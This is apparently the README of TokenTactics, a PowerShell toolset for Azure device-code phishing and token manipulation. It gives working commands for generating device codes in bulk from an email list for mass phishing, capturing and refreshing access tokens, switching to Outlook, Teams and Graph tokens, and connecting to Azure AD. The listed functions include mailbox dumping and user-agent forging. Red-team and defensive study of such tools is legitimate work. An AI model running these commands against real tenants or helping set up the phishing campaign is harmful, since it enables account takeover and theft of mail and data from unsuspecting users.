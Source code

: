 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Get-Help Get-AzureTokenMulti```

```RefreshTo-SubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

#### Multithreaded Device Code Generation
Generate 50 Device Codes and start 50 separate threads which will poll the status of the codes on a 5 second interval.
```Get-AzureTokenMulti -Client MSGraph -Count 50```
Generate a device code for each email address in the emails.txt file, and save the device codes in a DeviceCodes.csv file which can be imported in a different tool to send mass phishing mails.
```Get-AzureTokenMulti -Client MSGraph -InputFile .\emails.txt -CodeFile DeviceCodes.csv```

### Refresh or Switch Tokens

```RefreshTo-OutlookToken -domain myclient.org -refreshToken ey..```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Clear tokens
```Clear-Token -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Token                                        0.0.1      TokenTactics
Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
Function        Forge-UserAgent                                    0.0.1      TokenTactics
Function        Get-AzureToken                                     0.0.1      TokenTactics
Function        Get-AzureTokenMulti                                0.0.1      TokenTactics
Function        Get-TenantID                                       0.0.1      TokenTactics
Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
Function        Parse-JWTtoken                                     0.0.1      TokenTactics
Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
Function        RefreshTo-YammerToken                              0.0.1      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

